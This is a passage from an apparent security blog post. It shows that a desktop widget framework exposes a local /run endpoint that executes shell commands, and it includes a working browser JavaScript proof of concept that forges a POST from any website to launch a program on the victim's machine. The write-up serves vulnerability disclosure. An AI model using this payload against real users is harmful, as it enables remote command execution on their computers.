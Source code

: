     import run from './runShellCommand';
    import request from 'superagent';
    import styled, {css} from 'react-emotion';

    export {run, request, css, styled};

Ok, did that just say ‘run shell command’? I can have my widget update itself by running a command on my computer? Hell Yes!

Wait, what does runShellCommand actually do? It turns out, not a whole lot:

    const post = require('superagent').post;
    
    function wrapError(err, res) {
      return err
        ? new Error((res || {}).text || 'error running command')
        : null
        ;
    }
    
    module.exports = function runShellCommand(command, callback) {
      const request = post('/run/').send(command);
      return callback
        ? request.end((err, res) => callback(wrapError(err, res), (res || {}).text))
        : request
          .catch(err => { throw wrapError(err, err.response); })
          .then(res => res.text)
        ;
    };

So… we… just make a request to [https://127.0.0.1:41416/run,](https://127.0.0.1:41416/run,) and send whatever we want it to do? Neato. Haven’t we learned at this point that anyone can make a request to 127.0.0.1, though?

They can, with a little hacking, some javascript, and a custom website:

    const [form, input] = ["form", "input"].map(document.createElement.bind(document));

    Object.entries({
      method: "POST",
      action: "[http://127.0.0.1:41416/run/](http://127.0.0.1:41416/run/)",
      enctype: "text/plain"
    }).forEach(([key, value]) => form.setAttribute(key, value))

    Object.entries({
      value: "nope",
      name: "open /Applications/Calculator.app #"
    }).forEach(([key, value]) => input.setAttribute(key, value))

    document.body.appendChild(form).appendChild(input);

    form.submit();

First, I apologise for writing my code in ES6 Javascript, which has a similar effect on legacy Javascript programmers to speaking to an Englishman in old English.

![nope.](https://cdn-images-1.medium.com/max/2000/1*NwCX1dEMrvijxF4rcwxfpw.png)*nope.*
